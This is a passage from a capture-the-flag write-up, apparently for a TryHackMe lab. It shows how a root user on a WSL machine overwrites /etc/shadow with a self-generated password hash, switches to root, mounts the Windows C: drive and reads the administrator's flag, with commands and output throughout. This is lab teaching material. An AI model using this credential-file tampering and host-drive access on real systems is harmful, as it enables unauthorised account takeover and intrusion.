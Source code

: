 But well, if we are root, we have read and write permissions to the */etc/shadow* file, so we can create a hash of a password and modify the file to later authenticate as root.

We download a copy of the shadow file, generate a hash and insert it in the shadow, then upload and replace it (I will show only the generation of the hash, the rest we should already know).

```
> mkpasswd -m SHA-512 **********

$6$EcqHi9.Vr***********************************************1If7s0

> nano shadow
root:$6$EcqHi9.Vr***********************************************1If7s0:19331:0:99999:7:::
<SNIP>
```

Replace the shadow file with that of the machine, authenticate as the root user, mount the **wsl** drive and read the administrator flag.

```
bash-5.0# su root
Password:

root@DEV-DATASCI-JUP:/tmp# id
uid=0(root) gid=0(root) groups=0(root)

root@DEV-DATASCI-JUP:/tmp# mount -t drvfs c: /mnt/c

root@DEV-DATASCI-JUP:/tmp# ls -lna /mnt/c

ls: cannot read symbolic link '/mnt/c/Documents and Settings': Permission denied
ls: cannot access '/mnt/c/pagefile.sys': Permission denied
ls: '/mnt/c/System Volume Information': Permission denied
total 0
drwxrwxrwx 1 0 0 4096 Aug 25  2022 '$Recycle.Bin'
drwxrwxrwx 1 0 0 4096 Mar 14 04:14  .
drwxr-xr-x 1 0 0 4096 Aug 25  2022  ..
lrwxrwxrwx 1 0 0   12 Aug 25  2022 'Documents and Settings'
drwxrwxrwx 1 0 0 4096 Aug 25  2022  PerfLogs
drwxrwxrwx 1 0 0 4096 Aug 25  2022 'Program Files'
drwxrwxrwx 1 0 0 4096 Aug 25  2022 'Program Files (x86)'
drwxrwxrwx 1 0 0 4096 Mar 13 04:47  ProgramData
drwxrwxrwx 1 0 0 4096 Aug 25  2022  Recovery
d--x--x--x 1 0 0 4096 Aug 25  2022 'System Volume Information'
drwxrwxrwx 1 0 0 4096 Aug 25  2022  Users
drwxrwxrwx 1 0 0 4096 Mar 13 05:05  Windows
drwxrwxrwx 1 0 0 4096 May 20 09:35  datasci-team
-????????? ? ? ?    ?            ?  pagefile.sys
root@DEV-DATASCI-JUP:/tmp# 

root@DEV-DATASCI-JUP:/mnt/c/users/administrator# cd Desktop

root@DEV-DATASCI-JUP:/mnt/c/users/administrator/Desktop# ls

 ChromeSetup.exe                banner.txt                root.txt
 Ubuntu2004-220404.appxbundle   desktop.ini
'Visual Studio Code.lnk'        python-3.10.6-amd64.exe
root@DEV-DATASCI-JUP:/mnt/c/users/administrator/Desktop# cat root.txt
THM{**********************}

root@DEV-DATASCI-JUP:/mnt/c/users/administrator/Desktop#
```